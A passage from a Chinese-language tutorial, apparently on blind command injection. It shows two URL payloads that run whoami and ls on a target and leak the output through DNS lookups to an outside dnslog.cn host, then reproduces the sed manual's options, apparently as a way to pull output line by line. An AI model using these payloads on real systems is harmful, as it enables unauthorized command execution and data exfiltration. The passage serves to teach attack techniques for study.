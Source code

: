 ```
/?cmd=curl%20`whoami`.e4bj32.dnslog.cn

或者是

ping%20`ls`.e4bj32.dnslog.cn
```

然后我们能看见上面的结果。

执行了ls命令并且返回了查询到的第一条信息，但是问题是这并不完整。

在sql中我们可以使用limit来确定偏移量，那么在linux中有什么方法呢？

## SED

Linux sed 命令是利用脚本来处理文本文件。

sed 可依照脚本的指令来处理、编辑文本文件。

Sed 主要用来自动编辑一个或多个文件、简化对文件的反复操作、编写转换程序等。

```
-n, --quiet, --silent
               suppress automatic printing of pattern space
-e script, --expression=script
               add the script to the commands to be executed
-f script-file, --file=script-file
               add the contents of script-file to the commands to be executed
--follow-symlinks
               follow symlinks when processing in place
-i[SUFFIX], --in-place[=SUFFIX]
               edit files in place (makes backup if SUFFIX supplied)
-l N, --line-length=N
               specify the desired line-wrap length for the `l' command
--posix
               disable all GNU extensions.
-r, --regexp-extended
               use extended regular expressions in the script.
-s, --separate
               consider files as separate rather than as a single continuous
               long stream.
-u, --unbuffered
               load minimal amounts of data from the input files and flush
               the output buffers more often
-z, --null-data
               separate lines by NUL characters
    --help     display this help and exit
    --version  output version information and exit
    
    
参数说明：
    -e<script>或--expression=<script> 以选项中指定的script来处理输入的文本文件。
    -f<script文件>或--file=<script文件> 以选项中指定的script文件来处理输入的文本文件。
    -h或--help 显示帮助。
    -n或--quiet或--silent 仅显示script处理后的结果。
    -V或--version 显示版本信息。

动作说明：

    a ：新增， a 的后面可以接字串，而这些字串会在新的一行出现(目前的下一行)～
    c ：取代， c 的后面可以接字串，这些字串可以取代 n1,n2 之间的行！
    d ：删除，因为是删除啊，所以 d 后面通常不接任何咚咚；
    i ：插入， i 的后面可以接字串，而这些字串会在新的一行出现(目前的上一行)；
    p ：打印，亦即将某个选择的数据印出。通常 p 会与参数 sed -n 一起运行～
    s ：取代，可以直接进行取代的工作哩！通常这个 s 的动作可以搭配正规表示法！例如 1,20s/old/new/g 就是啦！ 
```